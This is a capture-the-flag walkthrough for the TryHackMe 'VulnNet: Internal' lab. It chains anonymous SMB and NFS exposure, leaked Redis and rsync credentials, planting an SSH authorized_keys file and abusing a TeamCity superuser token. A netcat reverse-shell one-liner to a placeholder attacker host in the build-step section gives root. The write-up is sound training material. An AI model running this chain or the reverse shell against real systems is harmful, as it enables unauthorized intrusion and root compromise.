

# VulnNet: Internal

| | |
|---|---|
| **Platform** | TryHackMe |
| **Difficulty** | Easy/Medium |
| **URL** | https://tryhackme.com/room/vulnnetinternal |
| **Focus** | Service enumeration chain: NFS → Redis → rsync → SSH → TeamCity |

---

## Port Scan `[RECON]`

```bash
nmap -sS -sC -sV -O -A -p 22,111,139,445,873,2049,6379,38951,39209,41053,44523,45285 <TARGET_IP> -oN nmap.txt

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
111/tcp   open  rpcbind     2-4 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd 4
445/tcp   open  netbios-ssn Samba smbd 4
873/tcp   open  rsync       (protocol version 31)
2049/tcp  open  nfs         3-4 (RPC #100003)
6379/tcp  open  redis       Redis key-value store
39209/tcp open  mountd      1-3 (RPC #100005)
41053/tcp open  nlockmgr    1-4 (RPC #100021)
44523/tcp open  mountd      1-3 (RPC #100005)
45285/tcp open  mountd      1-3 (RPC #100005)
```

---

## SMB Enumeration `[ENUMERATION]`

SMB (ports 139/445) — file and printer sharing protocol. Used here to enumerate accessible shares and retrieve the first flag.

```bash
smbclient -L //<TARGET_IP> -N -p 445

Sharename       Type      Comment
print$          Disk      Printer Drivers
shares          Disk      VulnNet Business Shares
IPC$            IPC       IPC Service
```

| Switch | Description |
|--------|-------------|
| `-L` | List available shares on the server |
| `-N` | No password prompt (anonymous access) |
| `-p 445` | Connection port |

```bash
smbclient //<TARGET_IP>/shares -N

smb: \> ls
  temp    D    0  Sat Feb  6 12:45:10 2021
  data    D    0  Tue Feb  2 10:27:33 2021

smb: \> cd temp
smb: \temp\> more services.txt
[flag_redacted]
```

The `shares` share allows anonymous access. The `temp` directory contains the first flag. The `data` directory contains `data.txt` and `business-req.txt` — informational content with no useful credentials.

---

## NFS Enumeration `[ENUMERATION]`

NFS (port 2049) — network file system protocol. Used here to mount an exported directory and read internal server configuration files.

```bash
showmount -e <TARGET_IP>

Export list for <TARGET_IP>:
/opt/conf *
```

| Switch | Description |
|--------|-------------|
| `-e` | Show the NFS export list (shared directories) |

```bash
mkdir /tmp/nfs
sudo mount -t nfs <TARGET_IP>:/opt/conf /tmp/nfs
find /tmp/nfs -type f

/tmp/nfs/redis/redis.conf
/tmp/nfs/vim/vimrc
/tmp/nfs/init/anacron.conf
/tmp/nfs/init/lightdm.conf
[...]
```

`/opt/conf` exported to all hosts with no restriction. The most relevant file is `redis.conf`.

> **Note:** rpcbind on port 111 acts as a directory for RPC services. When a client wants to connect to NFS or mountd, it first queries rpcbind to find which port each service is running on. Without rpcbind, NFS is not discoverable by remote clients.

---

## Redis Credential Extraction via NFS `[EXPLOITATION]`

Redis (port 6379) — in-memory key-value store commonly used for caching and sessions. The configuration file exposed via NFS contains its access password.

```bash
cat /tmp/nfs/redis/redis.conf | grep pass

requirepass "[redis_password_redacted]"
```

Redis credential found in the configuration file exposed via NFS.

---

## Redis Access and rsync Credential Retrieval `[EXPLOITATION]`

With the obtained credential, Redis is accessed to enumerate all stored keys. Redis is exploited here as a source of sensitive information: it contains an internal flag and rsync credentials encoded in base64.

```bash
redis-cli -h <TARGET_IP> -a '[redis_password_redacted]'

vnet.thm:6379> INFO KEYSPACE
# Keyspace
db0:keys=5,expires=0,avg_ttl=0

vnet.thm:6379> KEYS *
1) "marketlist"
2) "internal flag"
3) "authlist"
4) "int"
5) "tmp"

vnet.thm:6379> get "internal flag"
"[flag_redacted]"

vnet.thm:6379> LRANGE authlist 0 -1
1) "QXV0aG9yaXphdGlvbiBmb3Ig....."
```

| Switch | Description |
|--------|-------------|
| `-h` | Target host |
| `-a` | Authentication password |

```bash
echo "QXV0aG9yaXphdGlvbiBmb3Ig..." | base64 -d

Authorization for rsync://rsync-connect@127.0.0.1 with password [rsync_password_redacted]
```

List-type keys require `LRANGE` instead of `GET`. The `authlist` key contained rsync credentials encoded in base64.

---

## rsync Enumeration and Download `[EXPLOITATION]`

rsync (port 873) — file synchronization tool between systems. Used here with credentials obtained from Redis to download a user's home directory and later write an SSH key into their `.ssh` directory.

```bash
rsync --list-only rsync://<TARGET_IP>/

files    Necessary home interaction
```

```bash
rsync --list-only rsync://rsync-connect@<TARGET_IP>/files

drwxr-xr-x  4,096 .
drwxr-xr-x  4,096 ssm-user
drwxr-xr-x  4,096 sys-internal
drwxr-xr-x  4,096 ubuntu
```

```bash
RSYNC_PASSWORD='[rsync_password_redacted]' rsync -av rsync://rsync-connect@<TARGET_IP>/files/sys-internal /tmp/rsync/
```

| Switch / Variable | Description |
|--------|-------------|
| `RSYNC_PASSWORD` | Environment variable that bypasses the password prompt |
| `-a` | Archive mode: preserves permissions, timestamps, symlinks and enables recursion |
| `-v` | Verbose: shows transferred files |

The `files` module exposes the system users' home directories. The `sys-internal` home contains the user flag and an empty `.ssh` directory — a write vector.

---

## SSH Key Write via rsync `[EXPLOITATION]`

```bash
ssh-keygen -t rsa -f /tmp/id_rsa_vulnet -N ""
```

| Switch | Description |
|--------|-------------|
| `-t rsa` | Cryptographic algorithm type |
| `-f` | Output file path and name |
| `-N ""` | Empty passphrase — the key requires no password when used |

```bash
cp /tmp/id_rsa_vulnet.pub /tmp/rsync/sys-internal/.ssh/authorized_keys

RSYNC_PASSWORD='[rsync_password_redacted]' rsync -av /tmp/rsync/sys-internal/.ssh/ \
  rsync://rsync-connect@<TARGET_IP>/files/sys-internal/.ssh/

sending incremental file list
./
authorized_keys

sent 695 bytes  received 38 bytes  488.67 bytes/sec
total size is 563  speedup is 0.77
```

```bash
ssh -i /tmp/id_rsa_vulnet sys-internal@<TARGET_IP>

sys-internal@ip-<TARGET_IP>:~$ id
uid=1000(sys-internal) gid=1000(sys-internal) groups=1000(sys-internal),24(cdrom)
```

rsync with write permissions on `.ssh` allows planting `authorized_keys` without any interaction from the target user, enabling passwordless SSH access.

---

## TeamCity Discovery and Admin Token `[PRIVESC]`

TeamCity (port 8111 on localhost) — JetBrains CI/CD platform that automates builds, tests and deployments. Discovered after enumerating the machine with `linpeas.sh`, which reveals the `/TeamCity` directory at the system root. Builds run as root, making it a privileged execution vector.

```bash
cat /TeamCity/logs/catalina.out | grep -i "token"

[TeamCity] Super user authentication token: <AUTH_TOKEN> (use empty username with the token as the password to access the server)
```

TeamCity runs on port 8111 on localhost. The logs expose the active superuser token — the last token in the log is the valid one.

---

## SSH Tunnel and TeamCity Access `[PRIVESC]`

SSH (port 22) is reused here not just as shell access but as a tunnel to expose internal services. The `-L` switch enables local port forwarding: any connection to `localhost:8111` on the attacker machine is redirected through the SSH tunnel to `localhost:8111` on the target. This makes a loopback-only service reachable from the attacker's browser.

```bash
ssh -i /tmp/id_rsa_vulnet -L 8111:localhost:8111 sys-internal@<TARGET_IP>
```

| Switch | Description |
|--------|-------------|
| `-i` | Private key to use for authentication |
| `-L 8111:localhost:8111` | Local port forwarding: listens on port 8111 on the attacker and redirects traffic through the tunnel to localhost:8111 on the target |

Access from the browser at `http://localhost:8111`:
- **Username:** leave empty
- **Password:** `<AUTH_TOKEN>`

---

## Reverse Shell via TeamCity Build Step `[PRIVESC]`

```bash
nc -lvnp 4444
```

In the TeamCity interface:
1. `Create project` → arbitrary name → `Create`
2. `Create build configuration` → arbitrary name → `Create`
3. `Add build step` → Runner type: `Command Line`
4. Script content:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <ATTACKER_IP> 4444 >/tmp/f
```
5. `Run`

```bash
connect to [<ATTACKER_IP>] from (UNKNOWN) [<TARGET_IP>] 51172
root@ip-<TARGET_IP>:/TeamCity/buildAgent/work/2b35ac7e0452d98f# id
uid=0(root) gid=0(root) groups=0(root)
```

TeamCity executes builds as root. The build step launches a reverse shell with maximum privileges — no additional privesc required.

---

## Attack Chain



---

## Key Concepts

**rpcbind on port 111**

rpcbind registers and announces all RPC services on the system. It acts as a directory: when a client wants to connect to NFS or mountd, it first queries rpcbind to find which port each service is on. Without rpcbind, NFS is not discoverable by remote clients. Its presence in the scan indicates active RPC services and that the server is willing to announce them to any client that asks.

**rsync on port 873**

rsync is an efficient file synchronization tool that only transfers modified blocks between source and destination. On servers it exposes modules — directories configured for remote synchronization. When a module allows write access without proper authentication, rsync becomes a vector for uploading arbitrary files to the server, including SSH keys into users' `.ssh` directories.

**SSH local port forwarding**

The `-L local_port:remote_host:remote_port` switch instructs SSH to listen on `local_port` on the attacker machine and forward traffic through the encrypted tunnel to `remote_host:remote_port` from the perspective of the compromised server. In this room it allows reaching TeamCity, which only listens on the target's loopback, as if it were a local service on the attacker machine.

**NFS → Redis → rsync chain**

The central vulnerability in this room is the chained exposure of internal services: NFS exposes configurations containing Redis credentials, Redis stores rsync credentials in base64, and rsync allows writing to the server's filesystem. Each service leaks what is needed to compromise the next one.

**TeamCity as root execution vector**

TeamCity is a JetBrains CI/CD server. It executes builds in the context of the system user running the service. When that user is root, any command in a build step runs with maximum privileges. The superuser token in the startup logs provides administrative access without account credentials.

---

## Lessons Learned

- Internal services exposed on the network (NFS, Redis, rsync) often contain credentials for other services. Chained enumeration is more productive than attacking each service in isolation.
- Redis with weak or no authentication exposes the entire in-memory database, including sensitive information stored by applications. Always enumerate all keys with `KEYS *` and check the type with `TYPE` before attempting to read them.
- rsync with write permissions on `.ssh` directories is equivalent to shell access — it allows planting SSH keys without any interaction from the target user.
- TeamCity superuser tokens are logged in plaintext in the startup logs. In installations without completed initial setup, these tokens are the most direct entry vector.
- SSH is not just a means of access: port forwarding turns a shell session into a proxy for reaching internal services not directly exposed.

